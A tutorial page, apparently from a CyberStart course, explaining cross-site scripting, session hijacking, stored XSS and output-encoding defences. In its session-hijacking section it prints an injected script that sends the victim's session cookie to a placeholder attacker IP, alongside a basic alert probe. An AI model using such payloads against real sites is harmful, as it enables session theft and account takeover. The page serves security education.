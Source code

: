 ## WEB

# Cross site scripting

<div align="center">
 <video src="https://github.com/alphyos/CyberStart-2023/assets/116646389/9f1402b2-b229-4163-b1ca-36abf864d7cb" width="800" />
</div>

## XSS (Cross Site Scripting)

Here we cover the concept of cross site scripting, or as it is more
broadly known 'XSS'. It is very actively exploited as it can be a tough
vulnerability for website owners to stay on top of, and can affect many
areas of a web app. It's often caused by having poor filtering of user
provided data and allowing an attacker to get JavaScript code to execute
 in a user's browser - often providing access to their account, or
redirecting them to malicious code. It can seem like an ongoing game of
site owners cleaning XSS vulnerable output and an attacker finding
another vulnerable area, or a more creative workaround to get it working
 again.

An example vulnerable point may be a name which is part of a querystring within a URL, eg `https://example.com?name=Bob` but rather than provide "Bob" you might be able to provide malicious code instead, so the URL is `https://example.com?name=<script>alert(1);</script>`. If visiting this URL you see an alert message pop up with `1`
 as the message you can be pretty sure you found a vulnerable area. This
 is a basic example and tools exist to try 1000's of different
variations across a site to find obscure vulnerable areas.

## Session hijacking

With proof of a vulnerability and if the site has a [session cookie](https://play.cyberstart.com/field-manual/8f9e3c44-d7eb-11eb-98f3-0242ac140009),
 an attacker could craft a link to provide to a victim somehow (perhaps
via email or messenger), which includes injected code to steal their
session cookie value; and so will be able to 'hijack' their session. To
demonstrate this, if the JavaScript portion of the URL instead contained
 say `<script>document.location='https://1.268.3.5?data='%2bdocument.cookie</script>`
 and the attacker was listening for incoming connections on that IP,
they'd just have to wait for incoming cookie data when the victim
clicked the link. As soon as the data comes in, they can copy the
session cookie name & key value into their own browser to then have
the *same session* as the victim, effectively joining them in their session and having access to their account, personal information and more!

## Stored XSS

The above is an example of **Reflected XSS** where the server *reflects* an attack back to the user via some provided data. Another common type of XSS is **Stored XSS**.
 This is where the attacker is able to get the web app to store their
attack in a persistent store, such as a database. There's then no need
to try to send links to anyone; whoever visits the site will have it
triggered for them. One vulnerability could lead to thousands of other
users on the site being compromised.

These attacks often succeed as user's typically trust the websites
they're visiting, and don't consider that an attacker's malicious code
may be delivered to them from the site.

## Convincing redirects

Aside from joining the victim in their session to have joint access
to their account, the attacker may instead provide a link which instead
of stealing their cookie information, shows a convincing warning
message. Having an alert show on a site the victim trusts may give them
the confidence that the site is advising and helping them, and proceed
to download malware or other malicious code. If successful, the attacker
 can then use this to get a foothold on their computer.

> Browsers have gotten better at detecting XSS vulnerabilities as it's
> such a huge problem. However, website owners can protect themselves by
> running security tools to check for XSS vulnerabilities and of course
> manually confirming user provided code doesn't have XSS issues when
> output on a page.

## Cleaning user data to prevent XSS

Filtering user data when initially provided is a common approach to
preventing XSS, but it can be tricky: we may accidentally remove
characters that are valid, for example an apostrophe in the name *Tom O'Brien*, or the requirements for the sanitised data may change after the data has already been collected.

Rather than trying to filter user data on input, current best
practices instead suggests accepting user data largely as-is, knowing
that it is untrustworthy, and cleaning user data when output to the
page. This allows for much more focused cleaning depending on the
context, or where the user data is being used.

A common question is "How do you clean XSS on output?". Many
frameworks offer simple cleaning functions, but it's possible to protect
 yourself if your framework does not offer this or you don't use a
framework. While not bulletproof for all unicode character sets (e.g.
UTF-16 rather than the more common UTF-8), there are 5 contexts you
should clean within - HTML, Attribute, JavaScript, CSS and URL, each
with their own requirements. See the [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) for more info.

<div align="center">

[← Previous: 2.10 - Command injection](CommandInjection2.10.md) | [Next: 2.12 - Filters in web applications →](FiltersInWebApplications2.12.md)
:-|-:
